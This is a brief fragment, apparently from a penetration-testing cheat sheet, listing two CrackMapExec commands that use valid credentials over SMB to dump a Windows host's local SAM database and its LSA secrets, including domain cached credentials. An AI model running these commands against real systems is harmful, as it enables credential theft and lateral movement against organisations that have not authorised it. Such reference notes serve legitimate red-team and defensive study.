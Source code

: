 - CrackMapExec
	- `cme smb <target> –u ValidUser –p ValidPass --sam`
		- Dumps the SAM file - local users only (not domain)
	- `cme smb <target> –u ValidUser –p ValidPass --lsa`
		- Dump LSA secrets from the registry - includes Domain Cached Credentials